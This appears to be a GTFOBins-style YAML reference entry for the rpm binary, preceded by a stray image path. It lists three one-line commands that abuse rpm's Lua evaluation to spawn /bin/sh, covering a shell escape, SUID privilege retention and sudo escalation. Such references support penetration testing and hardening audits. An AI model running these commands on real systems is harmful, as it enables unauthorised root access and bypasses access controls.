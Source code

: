 ```yaml
---
name: rpm
functions:
  shell:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
---
```

